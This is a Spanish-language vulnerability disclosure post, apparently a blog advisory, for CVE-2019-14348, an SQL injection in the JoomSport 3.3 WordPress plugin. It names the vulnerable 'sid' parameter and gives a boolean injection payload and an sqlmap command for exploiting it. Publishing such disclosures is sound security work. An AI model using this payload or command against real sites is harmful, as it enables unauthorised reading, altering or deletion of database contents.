 +++
date = "2019-07-29"
title = "CVE 2019-14348 JoomSport - for Sports - SQL injection"
author = "Pablo Santiago"
toc = false
+++

## JoomSport 3.3– for Sports: Team & League, Football, Hockey & more

JoomSport es un plugin de WordPress desarrollado en 2009 que ofrece características esenciales para cualquier sitio de deporte, estándares de ligas de deportes, deportes de equipo con sus respectivas descripciones, historial de partidos, estadísticas y fotos, incluyendo los enfrentamientos entre los equipos con los goles o tantos anotados por ambos equipos y detalles de los partidos.

- 📅 Vulnerabilidad descubierta por Pablo Santiago el **29/07/2019**
- 🐛 [CVE-2019-14348](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14348)
- [ExploitDB](https://www.exploit-db.com/exploits/47210)
- 🔗 Link del software [JoomSport](https://wordpress.org/plugins/joomsport-sports-league-results-management/)
- 🐞 Versión vulnerable = **3.3** y anteriores probablemente.

**Solución**: Parchear la vulnerabilidad para la siguiente versión filtrando los datos de entradas introducidos por el usuario.

## Vector de ataque / Criticidad de la explotación  

### CRITICIDAD - 🟣 CRÍTICA 🟣

A través de la vulnerabilidad SQL injection, un usuario malintencionado podría **inyectar código SQL** con el objetivo de **robar información de la base de datos,** **modificar datos de la base de datos**, i**ncluso eliminar base de datos o datos de las mismas**.

### Parámetro vulnerable

El parámetro `sid` es vulnerable a ataques de tipo SQL injection, en el recurso `_/joomsport_season/[equipo]/?action=playerlist_`

Puede explotarse con el siguiente payload:

💉 `-3506 OR 7339=7339`

### Captura de pantalla de SQLmap lanzando el comando

```bash
sqlmap -r test.req -p sid --banner --tamper=space2comment --level 5 --risk 3
```

[![/images/cve-2019-14348-joomsport-for-sports-sql-injection/cve-2019-14348-joomsport-for-sports-sql-injection_001.png](/images/cve-2019-14348-joomsport-for-sports-sql-injection/cve-2019-14348-joomsport-for-sports-sql-injection_001.png)](/images/cve-2019-14348-joomsport-for-sports-sql-injection/cve-2019-14348-joomsport-for-sports-sql-injection_001.png)